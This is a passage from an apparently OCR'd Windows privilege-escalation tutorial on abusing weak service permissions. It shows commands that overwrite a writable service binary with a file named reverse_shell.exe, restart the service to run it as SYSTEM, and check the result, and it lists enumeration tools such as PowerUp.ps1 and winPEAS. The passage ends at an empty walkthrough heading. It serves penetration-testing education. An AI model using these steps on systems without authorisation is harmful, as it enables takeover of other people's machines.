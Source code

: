 ## ➤ **4.3.4 Exploitation Steps**

### ✅ Step 1 – Identify writable service

You find that `MyService` has weak permissions and is writable by your user account.

### ✅ Step 2 – Replace the executable

You can copy a malicious executable to the service’s path.

Example:

```powershell
copy .\reverse_shell.exe "C:\Program Files\Example\service.exe"
```

### ✅ Step 3 – Restart the service

```powershell
sc stop MyService
sc start MyService
```

Upon restart, your malicious code will run as SYSTEM.

---

### ✅ Step 4 – Confirm escalation

Run:

```powershell
whoami
```

Expected output:

```
nt authority\system
```

You now have full control.

---

## ➤ **4.3.5 Tools to Help Exploit Weak Service Permissions**

✔ **AccessChk** – Enumerates service permissions
✔ **sc** – View and control service config
✔ **wmic** – Quick service listing
✔ **PowerUp.ps1** – Automates scanning for weak service permissions
✔ **winPEAS** – Automated enumeration including weak service permissions

---

## ➤ **4.3.6 Example Walkthrough**
